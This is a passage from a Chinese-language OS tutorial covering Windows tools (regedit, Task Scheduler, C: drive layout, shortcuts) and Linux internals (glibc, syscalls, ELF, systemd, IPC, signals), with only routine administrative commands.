| GPU 显存按进程细分      | GPU-Z、任务管理器（Win10 1809+ 有） |

某些操作（如结束系统进程）需要管理员权限。

### 2.12 regedit（注册表编辑器）

**注册表编辑器用来改系统配置。**

> 注册表是什么

注册表是 Windows 的**核心数据库**，存着几乎所有设置：

- 硬件配置
- 软件安装信息
- 用户账户设置
- 系统启动项
- 文件关联

**类比**：注册表像 Windows 的“大脑”，你用鼠标点一下设置，它就在注册表里改一个数字。

打开方式：任务栏搜索“注册表编辑器”，或按 `Win + R`，输入 `regedit`，回车。

**界面预览**

```text
计算机
├── HKEY_CLASSES_ROOT      # 文件类型、扩展名关联
├── HKEY_CURRENT_USER      # 当前用户的设置（壁纸、输入法）
├── HKEY_LOCAL_MACHINE     # 系统全局设置（硬件、驱动、服务）
├── HKEY_USERS             # 所有用户的设置
└── HKEY_CURRENT_CONFIG    # 当前硬件配置
```

常见用途（与 C 盘一样不要乱改）

| 用途              | 路径（示例）                                                 |
| :---------------- | :----------------------------------------------------------- |
| 开机启动程序      | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`         |
| 右键菜单管理      | `HKCR\*\shell`                                               |
| 禁用 USB 存储     | `HKLM\SYSTEM\CurrentControlSet\Services\USBSTOR`             |
| 修改系统 OEM 信息 | `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\OEMInformation` |

⚠️ **修改注册表前必做 ↓**

**备份**：右键要改的项 → 导出 → 存一个 `.reg` 文件。万一改错了，双击这个 `.reg` 文件就能恢复。（比如清理 2345系，360系，网易系，腾讯系、Adobe系）

*是真的好恶心*😭

### 2.13 taskschd.msc（任务计划程序）

**任务计划程序是用来定时自动执行任务。**比如：每天凌晨 3 点自动杀毒；每周一自动备份文件；每次登录时自动启动某个程序等。

**类比**：给你的电脑设一个“闹钟 + 自动操作”。

打开方式：任务栏搜索“任务计划程序”，或按 `Win + R`，输入 `taskschd.msc`，回车，再或者是 控制面板 → 管理工具 → 任务计划程序。

**界面预览（与注册表编辑器相似）**

```text
任务计划程序（本地）
├── 任务计划程序库       # 所有任务的列表
│   ├── Microsoft        # 系统自带任务（不要动）
│   ├── 你的任务          # 你自己创建的任务
│   └── ...
├── 创建基本任务         # 向导式创建
└── 创建任务             # 高级创建
```

**创建一个任务（向导）**

1\. 右侧“创建基本任务”。
2\. 输入名称（如“每天备份”）。
3\. 选触发器：每天/每周/登录时/开机时。
4\. 选操作：启动程序（选 `.exe`）、发送邮件、显示消息。
5\. 完成。

| 场景           | 说明                                           |
| :------------- | :--------------------------------------------- |
| 自动备份       | 每天把文件夹复制到另一个盘                     |
| 定时关机       | `shutdown /s /t 0` 作为任务执行                |
| 自动清理垃圾   | 运行磁盘清理脚本                               |
| 启动程序延迟   | 登录后等 1 分钟再开某个软件                    |
| 恶意软件持久化 | 病毒给自己建个任务，每次开机复活（⚠️ 安全相关） |

`任务计划程序库` → `Microsoft` → `Windows` 下面有很多系统任务，比如自动更新、磁盘整理等。**不要动这些**。

### 2.14 系统盘结构

**系统盘是安装 Windows 操作系统的硬盘分区**，通常是 `C:` 盘。

- 包含 Windows 系统文件、引导文件、页面文件
- 包含程序文件（Program Files）、用户数据（Users）
- 系统盘满了会导致系统变慢、更新失败、程序异常

打开 `C:\`，你会看到以下文件夹（有些是隐藏的，需要勾选"隐藏的项目"）：

```text
C:\
├── Windows/           ← Windows 操作系统核心（最重要）
├── Program Files/     ← 64位程序安装目录
├── Program Files (x86)/ ← 32位程序安装目录（仅64位系统有）
├── Users/             ← 用户数据（文档、桌面、下载等）
├── ProgramData/       ← 程序共享数据（隐藏）
├── Boot/              ← 引导文件（隐藏）
├── System Volume Information/ ← 系统还原、卷信息（不可访问）
├── pagefile.sys       ← 虚拟内存文件（页面文件）
├── swapfile.sys       ← 轻量页面文件（Windows 8+）
├── hiberfil.sys       ← 休眠文件（启用休眠时存在）
└── $Recycle.Bin/      ← 回收站（每个盘都有）
```

1\. `C:\Windows` —— 系统的心脏

这是 Windows 最核心的文件夹，删除任何东西都可能导致**系统崩溃**。

```text
C:\Windows\
├── System32/          ← 64位系统文件、核心DLL、驱动、EXE（最重要！）
├── SysWOW64/          ← 32位系统文件（仅64位系统有）
├── Boot/              ← 引导相关文件
├── Fonts/             ← 系统字体
├── INF/               ← 驱动程序安装信息
├── Logs/              ← 系统日志
├── Media/             ← 系统声音文件
├── Temp/              ← 临时文件（可清理）
├── WinSxS/            ← 组件存储（Windows 更新备份，很大）
├── explorer.exe       ← 文件资源管理器
├── notepad.exe        ← 记事本
├── regedit.exe        ← 注册表编辑器
├── cmd.exe            ← 命令提示符
└── ...
```

- C:\Windows\System32\
  - drivers\   硬件驱动程序
  - config\     注册表数据库文件（SAM、SOFTWARE等）
  - dllcache\ 系统文件备份（Windows File Protection）
  - spool\      打印队列      *✅ 可清空*
  - Temp\      临时文件      *✅ 可清空*
  - WinSxS\   组件存储

2\. `C:\Program Files` 与 `C:\Program Files (x86)`

Program Files是64 位程序的默认安装位置。

Program Files (x86)是32 位程序的默认安装位置。

为了保持兼容性。

3\. `C:\Users` —— 用户数据

```text
C:\Users\
├── Public/            ← 公用文件夹（所有用户可访问）
├── Default/           ← 新用户的模板（隐藏）
├── 你的用户名/
│   ├── Desktop/       ← 桌面
│   ├── Documents/     ← 文档
│   ├── Downloads/     ← 下载
│   ├── Pictures/      ← 图片
│   ├── Music/         ← 音乐
│   ├── Videos/        ← 视频
│   ├── AppData/       ← 应用程序数据（隐藏，重要！）
│   ├── NTUSER.DAT     ← 该用户的注册表配置单元（隐藏）
│   └── ...
└── ...
```

- C:\Users\AppData\
  - Local/            本地数据（不随账户漫游），如缓存、日志
    - Temp/    临时文件    *✅ 可清空*
    - Cache/   程序缓存，清空后下次启动变慢
  - LocalLow/    低完整性级别的本地数据（如浏览器沙箱）
  - Roaming/     漫游数据（企业环境中随账户同步），如程序配置
    - 程序名/  丢失程序配置或本地个人数据

4\. `C:\ProgramData` —— 程序共享数据（隐藏）

- 存放所有用户共用的程序数据（不特定于某个用户）
- 例如：杀毒软件的病毒库、游戏存档（某些）、驱动程序缓存

```text
C:\ProgramData\
├── Microsoft/         ← Windows 相关数据
├── NVIDIA/            ← 显卡驱动配置
├── Package Cache/     ← 安装程序缓存（可清理）
└── ...
```

5\. 系统盘根目录的系统文件

| 文件                         | 作用                                 | 大小                | 能否删除                     |
| :--------------------------- | :----------------------------------- | :------------------ | :--------------------------- |
| `pagefile.sys`               | 虚拟内存（当物理内存不足时用作内存） | 通常 1-3 倍物理内存 | ❌ 不可删除（可移动到其他盘） |
| `swapfile.sys`               | 轻量页面文件（用于 Metro 应用）      | 通常 256MB          | ❌ 不可删除                   |
| `hiberfil.sys`               | 休眠文件（保存内存状态到硬盘）       | 约 75% 物理内存     | ⚠️ 可删除（禁用休眠）         |
| `$Recycle.Bin\`              | 回收站                               | 不定                | ❌ 不可删除（每个盘都有）     |
| `System Volume Information\` | 系统还原、卷影副本、文件索引         | 不定                | ❌ 不可访问（安全原因）       |

**系统盘空间不足的常见原因与解决方案**

| 原因                        | 症状                             | 解决方案                                             |
| :-------------------------- | :------------------------------- | :--------------------------------------------------- |
| WinSxS 过大                 | 系统更新多次后                   | `DISM /Online /Cleanup-Image /StartComponentCleanup` |
| 用户下载文件过多            | `C:\Users\用户名\Downloads` 很大 | 移动文件到其他盘或删除                               |
| 回收站未清空                | 删除文件后未清空                 | 右键回收站 → 清空                                    |
| 休眠文件                    | 笔记本用户，从不休眠             | `powercfg -h off`                                    |
| 页面文件过大                | 物理内存大，虚拟内存默认也大     | 移动到其他盘或减小                                   |
| 临时文件                    | `C:\Windows\Temp`、`%TEMP%`      | 磁盘清理工具                                         |
| 旧版 Windows（Windows.old） | 大版本升级后                     | 磁盘清理 → 清理系统文件                              |
| 微信/QQ 缓存                | 聊天记录、图片、视频             | 软件内清理缓存                                       |

**系统盘里的 `Windows` 和 `System32` 一定不要动**，`Users` 里自己的文件根据需要可以删，临时文件和缓存可以定期清理。

### 2.15 Windows 快捷键大全（效率提升）

**一、窗口管理**

| 快捷键            | 作用                                   |
| :---------------- | :------------------------------------- |
| `Win + ←`         | 当前窗口贴左半边                       |
| `Win + →`         | 当前窗口贴右半边                       |
| `Win + ↑`         | 最大化当前窗口                         |
| `Win + ↓`         | 还原/最小化当前窗口                    |
| `Win + D`         | 显示桌面（最小化所有窗口，再按恢复）   |
| `Win + M`         | 最小化所有窗口                         |
| `Win + Shift + M` | 恢复最小化的窗口                       |
| `Alt + Tab`       | 切换窗口（按住 Alt 不放，按 Tab 选择） |
| `Win + Tab`       | 任务视图（虚拟桌面切换）               |
| `Alt + F4`        | 关闭当前窗口/程序                      |
| `Ctrl + W`        | 关闭当前标签页（浏览器、资源管理器）   |
| `Win + Home`      | 最小化除当前窗口外的所有窗口           |

**二、文件资源管理器**

| 快捷键             | 作用                                     |
| :----------------- | :--------------------------------------- |
| `Win + E`          | 打开文件资源管理器（快速打开“此电脑”）   |
| `Ctrl + N`         | 新开一个相同路径的资源管理器窗口         |
| `Ctrl + W`         | 关闭当前资源管理器窗口                   |
| `Ctrl + Shift + N` | 新建文件夹                               |
| `Alt + ↑`          | 返回上一级目录                           |
| `Alt + ←`          | 后退                                     |
| `Alt + →`          | 前进                                     |
| `F2`               | 重命名选中文件/文件夹                    |
| `Delete`           | 删除到回收站                             |
| `Shift + Delete`   | 永久删除（不进回收站，小心用）           |
| `Ctrl + Shift + Y` | 复制文件路径（Win11）                    |
| `Ctrl + C`         | 复制                                     |
| `Ctrl + X`         | 剪切                                     |
| `Ctrl + V`         | 粘贴                                     |
| `Ctrl + Z`         | 撤销                                     |
| `Ctrl + Y`         | 重做（恢复撤销）                         |
| `Ctrl + A`         | 全选                                     |
| `Ctrl + Shift + E` | 展开所有文件夹到当前目录（左侧导航窗格） |

**三、系统与任务**

| 快捷键                 | 作用                                   |
| :--------------------- | :------------------------------------- |
| `Ctrl + Shift + Esc`   | 打开任务管理器（最快方式）             |
| `Ctrl + Alt + Delete`  | 安全选项（锁定、切换用户、任务管理器） |
| `Win + R`              | 打开“运行”对话框                       |
| `Win + X`              | 打开快捷菜单（管理员常用）             |
| `Win + I`              | 打开设置                               |
| `Win + A`              | 打开操作中心（通知栏）                 |
| `Win + L`              | 锁定电脑                               |
| `Win + Pause/Break`    | 打开系统属性（查看系统信息）           |
| `Win + V`              | 剪贴板历史（需在设置中开启）           |
| `Win + .` 或 `Win + ;` | 打开表情符号面板（Emoji）              |

**四、文本编辑与命令行**

| 快捷键                      | 作用                           |
| :-------------------------- | :----------------------------- |
| `Ctrl + C`                  | 复制（命令行中为终止当前进程） |
| `Ctrl + V`                  | 粘贴（新版终端支持）           |
| `Ctrl + A`                  | 全选                           |
| `Ctrl + F`                  | 查找（在输出结果中搜索）       |
| `Ctrl + Shift + Enter`      | 以管理员身份运行当前选中的程序 |
| `Ctrl + Insert`             | 复制（命令行备用）             |
| `Shift + Insert`            | 粘贴（命令行备用）             |
| `↑` / `↓`                   | 上一条/下一条历史命令          |
| `F7`                        | 查看命令历史（cmd）            |
| `Tab`                       | 自动补全路径/命令              |
| `Ctrl + Shift + ScrollLock` | 快速编辑模式开关（cmd）        |

**五、浏览器常用（通用）**

| 快捷键                           | 作用                 |
| :------------------------------- | :------------------- |
| `Ctrl + T`                       | 新建标签页           |
| `Ctrl + W`                       | 关闭当前标签页       |
| `Ctrl + Shift + T`               | 恢复最近关闭的标签页 |
| `Ctrl + Tab`                     | 切换到下一个标签页   |
| `Ctrl + Shift + Tab`             | 切换到上一个标签页   |
| `Ctrl + L`                       | 选中地址栏           |
| `Ctrl + D`                       | 收藏当前页面         |
| `Ctrl + F`                       | 页面内查找           |
| `Ctrl + R` / `F5`                | 刷新页面             |
| `Ctrl + Shift + R` / `Ctrl + F5` | 强制刷新（忽略缓存） |
| `Ctrl + +`                       | 放大页面             |
| `Ctrl + -`                       | 缩小页面             |
| `Ctrl + 0`                       | 重置缩放             |
| `Ctrl + Shift + Delete`          | 打开清除浏览数据窗口 |

**六、开发者/高级**

| 快捷键              | 作用                                 |
| :------------------ | :----------------------------------- |
| `F12`               | 打开开发者工具（浏览器）             |
| `Ctrl + Shift + I`  | 同上                                 |
| `Win + Shift + S`   | 截图（截图工具区域截图）             |
| `Win + PrtSc`       | 全屏截图并自动保存到“图片\屏幕截图”  |
| `Alt + PrtSc`       | 截取当前活动窗口到剪贴板             |
| `Win + K`           | 连接无线显示器/音频设备              |
| `Win + P`           | 投影设置（扩展、复制、仅第二屏幕）   |
| `Win + G`           | 打开 Xbox Game Bar（录屏、性能监控） |
| `Win + Shift + →/←` | 移动窗口到另一个显示器               |

------

## 第三部分：Linux 系统架构

### 3.1 总体结构



**3.1.1 Linux 核心设计原则**

1\. 一切皆文件

| 资源类型 | 抽象为文件                 | 路径示例                               |
| :------- | :------------------------- | :------------------------------------- |
| 普通文件 | 常规文件                   | `/home/user/file.txt`                  |
| 目录     | 特殊文件（包含文件名列表） | `/home/user/`                          |
| 硬件设备 | 设备文件                   | `/dev/sda`（硬盘）、`/dev/tty`（终端） |
| 进程信息 | 虚拟文件                   | `/proc/1234/`（PID 1234 的进程信息）   |
| 内核参数 | 虚拟文件                   | `/sys/class/net/eth0/`                 |
| 管道     | 管道文件（`/` 匿名）       | `ls | grep txt`                        |
| 套接字   | 套接字文件                 | `/var/run/docker.sock`                 |

**好处**：可以用 `read()`、`write()`、`open()` 等统一接口操作一切资源。

2\. 机制与策略分离

3\. 可移植性

**3.1.2 用户态核心组件**

1\. C 标准库（glibc）

**作用**：用户态程序与内核之间的桥梁。

```c
// 程序员写的代码
printf("hello\n");

// glibc 中的 printf 内部
//→ 格式化字符串
//→ 调用 write 系统调用
//→ mov eax, 1 (系统调用号)
//→ syscall 指令
//→ 进入内核
```

**glibc 提供的功能**：

- 系统调用封装（`open`、`read`、`write`、`fork` 等）
- 字符串处理（`strcpy`、`strlen`）
- 数学函数（`sin`、`cos`、`sqrt`）
- 内存管理（`malloc`、`free`）
- 正则表达式、时间处理、线程管理（pthread）

2\. Shell（命令行解释器）

**作用**：接收用户命令，启动程序，管理进程。

```bash
# 用户输入
$ ls -la /home

# Shell 做的事
# 1. 解析命令行（命令名：ls，参数：-la、/home）
# 2. 在 $PATH 中查找 ls 可执行文件（/bin/ls）
# 3. fork() 创建子进程
# 4. execve() 在子进程中执行 /bin/ls
# 5. wait() 等待子进程结束
# 6. 显示输出，回到提示符
```

3\. 守护进程（Daemons）

**定义**：后台运行的进程，通常以 `d` 结尾（daemon）。

| 守护进程          | 作用                      | 类型 |
| :---------------- | :------------------------ | :--- |
| `systemd`         | 系统和服务管理器（PID 1） | 核心 |
| `sshd`            | SSH 远程登录服务          | 网络 |
| `crond`           | 定时任务调度              | 系统 |
| `nginx` / `httpd` | Web 服务器                | 应用 |
| `mysqld`          | MySQL 数据库              | 应用 |
| `rsyslogd`        | 系统日志服务              | 系统 |

**特点**：

- 没有控制终端（不与用户直接交互）
- 父进程通常是 init（PID 1）
- 通常以 `root` 或专用账户运行

3.1.3 Linux 启动流程（简略）

```text
BIOS/UEFI
    ↓
引导加载程序（GRUB / systemd-boot）
    ↓
加载内核（vmlinuz） + initramfs（初始内存文件系统）
    ↓
内核初始化：CPU、内存、设备驱动、中断
    ↓
挂载根文件系统（/）
    ↓
启动 init 进程（PID 1）
    ├── 传统：SysV init（/etc/inittab）
    └── 现代：systemd（/usr/lib/systemd/system/）
    ↓
systemd 启动目标（target）：
    ├── 基础系统服务（udev、日志、dbus）
    ├── 网络服务
    ├── 图形界面（可选）
    └── 登录管理器（getty / display manager）
    ↓
用户登录 → Shell / 图形桌面
```

### 3.2 核心库与系统调用

**核心库（C 标准库）是用户态程序与内核之间的“翻译官”**。

- 程序员调用 `printf()`、`open()`、`malloc()`
- 核心库把这些函数调用翻译成内核能理解的**系统调用**
- 然后通过 `syscall` 指令进入内核

**一句话**：核心库封装了系统调用，让你不用写汇编就能使用内核功能。

**系统调用是用户态程序请求内核服务的唯一合法通道**。

**代码** → **核心库函数** → **系统调用** → **内核执行**

**3.2.1 为什么需要核心库？**

如果没有核心库，你写 C 代码要这样：

```c
// 没有核心库，直接写系统调用（x86_64）
char msg[] = "hello\n";

__asm__ volatile (
    "mov $1, %%rax\n"    // 系统调用号 1 = write
    "mov $1, %%rdi\n"    // 参数1：fd = 1 (stdout)
    "mov %0, %%rsi\n"    // 参数2：缓冲区地址
    "mov $6, %%rdx\n"    // 参数3：长度 6
    "syscall\n"
    : : "r"(msg) : "rax", "rdi", "rsi", "rdx"
);
```

有了核心库：

```c
#include <unistd.h>
write(1, "hello\n", 6);   // 简单
```

**核心库提供的好处**：

| 好处         | 说明                                           |
| :----------- | :--------------------------------------------- |
| **简化开发** | 不用记系统调用号，不用写汇编                   |
| **可移植性** | 同一份代码可在不同架构编译（核心库处理差异）   |
| **性能优化** | 缓冲（如 `printf` 先存缓冲区，再批量 `write`） |
| **额外功能** | 字符串处理、数学计算、正则等（内核不提供）     |

常见 C 标准库

| 库           | 全称            | 特点                       | 适用场景               |
| :----------- | :-------------- | :------------------------- | :--------------------- |
| **glibc**    | GNU C Library   | 功能最全，兼容性好，体积大 | 桌面、服务器（默认）   |
| **musl**     | musl libc       | 轻量、静态链接友好、启动快 | 容器、嵌入式           |
| **uClibc**   | micro C library | 极小，可配置               | 深度嵌入式（路由器等） |
| **dietlibc** | diet libc       | 极小，部分功能不完整       | 极简环境               |

**3.2.2 核心库与系统调用的关系图**



**核心库（glibc）封装系统调用，让程序员不用写汇编；系统调用是用户态进入内核的唯一通道，通过 `syscall` 指令触发；用 `strace` 可以查看程序执行了哪些系统调用。**

### 3.3 可执行文件格式：ELF

**ELF（Executable and Linkable Format）是 Linux 和大多数 Unix 系统的标准可执行文件格式**。

- 用于：可执行文件（`.out`）、目标文件（`.o`）、共享库（`.so`）、核心转储文件（`core`）
- Windows 的 PE 格式与 ELF 功能对等，但结构不同
- Linux 下运行一个程序，加载器读入的就是 ELF 文件

**3.3.1 ELF 文件的三种类型**

| 类型             | 说明                                               | 文件扩展名/例子        | 对应 Windows |
| :--------------- | :------------------------------------------------- | :--------------------- | :----------- |
| **可重定位文件** | 编译未链接的中间文件，包含代码和数据，供链接器使用 | `.o`（目标文件）       | `.obj`       |
| **可执行文件**   | 已完成链接，可被加载执行                           | `/bin/ls`、`./a.out`   | `.exe`       |
| **共享目标文件** | 动态链接库，可被多个程序共享                       | `.so`（Shared Object） | `.dll`       |

**3.3.2 ELF 文件整体结构**



1\. ELF 头部（ELF Header）

**作用**：ELF 文件的索引，告诉你文件类型、架构、入口点等。

**重要字段**：

| 字段            | 含义                                           |
| :-------------- | :--------------------------------------------- |
| Magic           | `7f 45 4c 46` = `DEL` + `ELF`（魔数标识）      |
| Type            | EXEC（可执行）、DYN（共享库）、REL（可重定位） |
| Entry point     | 程序开始执行的虚拟地址                         |
| Program Headers | 程序头表的位置和数量                           |
| Section Headers | 节头表的位置和数量                             |

2\. 程序头表（Program Header Table）

**作用**：告诉加载器如何把文件映射到内存（段）。

3\. 节头表（Section Header Table）

**作用**：详细描述每个节的信息（链接时用，执行时可选）。

查看 ELF 文件的常用命令

| 命令         | 作用              | 例子               |
| :----------- | :---------------- | :----------------- |
| `file`       | 快速识别 ELF 类型 | `file /bin/ls`     |
| `readelf -h` | 查看 ELF 头       | `readelf -h a.out` |
| `readelf -l` | 查看程序头（段）  | `readelf -l a.out` |
| `readelf -S` | 查看节头          | `readelf -S a.out` |
| `readelf -s` | 查看符号表        | `readelf -s a.out` |
| `objdump -d` | 反汇编代码        | `objdump -d a.out` |
| `objdump -t` | 显示符号表        | `objdump -t a.out` |
| `size`       | 显示各段大小      | `size a.out`       |
| `ldd`        | 查看依赖的共享库  | `ldd /bin/ls`      |

**3.3.3 查看 ELF 文件的常用命令**

| 命令         | 作用              | 例子               |
| :----------- | :---------------- | :----------------- |
| `file`       | 快速识别 ELF 类型 | `file /bin/ls`     |
| `readelf -h` | 查看 ELF 头       | `readelf -h a.out` |
| `readelf -l` | 查看程序头（段）  | `readelf -l a.out` |
| `readelf -S` | 查看节头          | `readelf -S a.out` |
| `readelf -s` | 查看符号表        | `readelf -s a.out` |
| `objdump -d` | 反汇编代码        | `objdump -d a.out` |
| `objdump -t` | 显示符号表        | `objdump -t a.out` |
| `size`       | 显示各段大小      | `size a.out`       |
| `ldd`        | 查看依赖的共享库  | `ldd /bin/ls`      |

**3.3.4 程序加载过程（简略）**

```text
用户执行 ./program
    ↓
Shell 调用 execve("./program")
    ↓
内核读取 ELF 头，检查有效性
    ↓
读取程序头表
    ↓
对每个 LOAD 段：
    1. 在虚拟地址空间分配内存
    2. 将文件内容读入（mmap）
    3. 设置权限（R/W/E）
    ↓
找到 INTERP 段（解释器路径，如 /lib64/ld-linux-x86-64.so.2）
    ↓
加载解释器（动态链接器），跳转到解释器入口
    ↓
解释器负责：
    1. 加载依赖的共享库（libc.so 等）
    2. 进行动态重定位
    3. 调用程序的初始化函数
    4. 跳转到程序的入口点（_start）
    ↓
程序开始执行 main()
```

**3.3.5 动态链接与 GOT/PLT**

**问题**：程序调用了 `printf`，但 `printf` 在 `libc.so` 中，程序编译时不知道 `printf` 的地址。

**解决方案**：GOT（全局偏移表）+ PLT（过程链接表）

```text
程序调用 printf
    ↓
调用 PLT 中的 printf@plt
    ↓
PLT 中第一条指令：跳转到 GOT 中对应的地址
    ↓
第一次调用：GOT 中地址指向 PLT 的第二条指令（跳转到动态链接器）
    ↓
动态链接器查找 printf 的真实地址，填入 GOT
    ↓
第二次调用：GOT 中已存有真实地址，直接跳转
```

### 3.4 系统服务与管理

**系统服务（Service）是在后台运行的进程**，随系统启动，提供特定功能，不与用户直接交互。

**3.4.1 systemd：unit文件（.service）**

- **systemd 是 Linux 的系统和服务管理器**，PID 为 1，是所有进程的"老祖宗"。
- systemd 把所有管理对象抽象为 **Unit**（单元）。
- **Target（目标）类似于 SysV init 的"运行级别"，但更灵活**。

**systemd 的职责**：

| 职责                             | 说明                       |
| :------------------------------- | :------------------------- |
| 启动系统服务                     | 按依赖顺序启动             |
| 管理运行中的服务                 | 启动、停止、重启、重载配置 |
| 记录服务日志                     | 通过 journald              |
| 管理挂载点、设备、套接字、定时器 | 统一管理                   |
| 处理系统关机/重启                | 优雅停止服务               |

Unit 用不同后缀区分：

| Unit 类型      | 后缀       | 作用                    | 例子                                    |
| :------------- | :--------- | :---------------------- | :-------------------------------------- |
| **服务单元**   | `.service` | 守护进程                | `sshd.service`、`nginx.service`         |
| **定时器单元** | `.timer`   | 定时任务（替代 cron）   | `logrotate.timer`                       |
| **套接字单元** | `.socket`  | 网络套接字或本地 socket | `docker.socket`                         |
| **挂载单元**   | `.mount`   | 文件系统挂载点          | `home.mount`                            |
| **目标单元**   | `.target`  | 一组 Unit 的逻辑分组    | `multi-user.target`、`graphical.target` |
| **路径单元**   | `.path`    | 监控文件/目录变化触发   | `spool.path`                            |
| **设备单元**   | `.device`  | 硬件设备                | 内核自动生成                            |

**3.4.2 systemd 服务管理命令（最常用）**

1\. 服务生命周期管理

| 操作         | 命令                               | 说明                     |
| :----------- | :--------------------------------- | :----------------------- |
| 启动服务     | `sudo systemctl start <service>`   | 立即启动                 |
| 停止服务     | `sudo systemctl stop <service>`    | 立即停止                 |
| 重启服务     | `sudo systemctl restart <service>` | 先停再启                 |
| 重载配置     | `sudo systemctl reload <service>`  | 不中断服务，重新加载配置 |
| 启用开机自启 | `sudo systemctl enable <service>`  | 创建符号链接             |
| 禁用开机自启 | `sudo systemctl disable <service>` | 删除符号链接             |
| 查看状态     | `systemctl status <service>`       | 运行状态、日志、PID      |

2\. 查看服务列表

| 操作                     | 命令                                        |
| :----------------------- | :------------------------------------------ |
| 列出所有服务             | `systemctl list-units --type=service`       |
| 列出所有服务（含未激活） | `systemctl list-units --type=service --all` |
| 列出失败的服务           | `systemctl --failed --type=service`         |
| 查看服务依赖             | `systemctl list-dependencies <service>`     |

 3\. 系统管理

| 操作               | 命令                       |
| :----------------- | :------------------------- |
| 关机               | `sudo systemctl poweroff`  |
| 重启               | `sudo systemctl reboot`    |
| 暂停（挂起到内存） | `sudo systemctl suspend`   |
| 休眠（挂起到磁盘） | `sudo systemctl hibernate` |

### 3.5 进程间通信（IPC，Inter-Process Communication）

**进程间通信是操作系统提供的机制，允许不同进程之间交换数据、传递信息、协调工作。**

**为什么需要 IPC？**

- 进程地址空间是**隔离的**（一个进程无法直接访问另一个进程的内存）
- 但很多场景需要进程协作：
  - Shell 管道：`ls | grep txt`（两个进程，一个输出是另一个的输入）
  - Web 服务器：Nginx 与 PHP-FPM 通信
  - 浏览器：主进程与渲染进程通信

**一句话**：IPC 就是让“互相看不见”的进程能够“说话”的方法。

IPC 方式分类

```text
进程间通信（IPC）
├── 管道（Pipe）
│   ├── 匿名管道（pipe）
│   └── 命名管道（FIFO）
├── 信号（Signal）
├── System V IPC
│   ├── 共享内存（Shared Memory）
│   ├── 消息队列（Message Queue）
│   └── 信号量（Semaphore）
├── POSIX IPC
│   ├── POSIX 消息队列
│   ├── POSIX 共享内存
│   └── POSIX 信号量
├── 套接字（Socket）
│   ├── Unix Domain Socket（本机）
│   └── TCP/UDP Socket（网络）
├── D-Bus（桌面总线）
└── 内存映射文件（mmap）
```

1\. 管道（Pipe）：**最简单的 IPC，单向数据流。**

2\. 信号（Signal）：**软件中断，用于通知进程发生了某个事件。**

3\. 共享内存（Shared Memory）：**最快的 IPC，多个进程共享同一块物理内存。**

4\. 消息队列（Message Queue）：**消息的链表，有边界的消息传递。**

5\. 信号量（Semaphore）：**用于同步，不是传递数据，而是控制对共享资源的访问。**

6\. 套接字（Socket）：**最强大的 IPC，支持网络通信。**

7\. D-Bus（桌面总线）：**现代 Linux 桌面环境（GNOME、KDE）使用的 IPC。**

### 3.6 信号（Signal）

**信号是 Unix/Linux 的软件中断，用于通知进程事件发生。`SIGKILL`（9）强制杀死，`SIGTERM`（15）请求终止，`SIGINT`（2）来自 Ctrl+C。进程可以捕获、忽略或默认处理信号。**

```bash
kill -9 PID      # 强制杀死
kill -15 PID     # 优雅停止
kill -2 PID      # Ctrl+C
kill -19 PID     # 暂停
kill -18 PID     # 继续
Ctrl+C           # SIGINT
Ctrl+\           # SIGQUIT
kill -l          # 查看所有信号
```

- 可以理解为：**内核（或其他进程）向一个进程发送的“紧急通知”**
- 接收方可以：忽略、默认处理、执行自定义处理函数
- 信号**不传递数据**，只传递一个数字（信号编号）

**一句话**：信号是进程间最简单的通信方式，告诉进程“发生了一件事”。

### 3.7 配置系统（无控制面板）

**Linux 没有类似 Windows 控制面板的统一图形化配置工具，配置通过以下方式完成：**

| 配置方式         | 说明                          | 类比                               |
| :--------------- | :---------------------------- | :--------------------------------- |
| **文本配置文件** | 用编辑器修改 `/etc/` 下的文件 | Windows 的注册表（但这里是纯文本） |
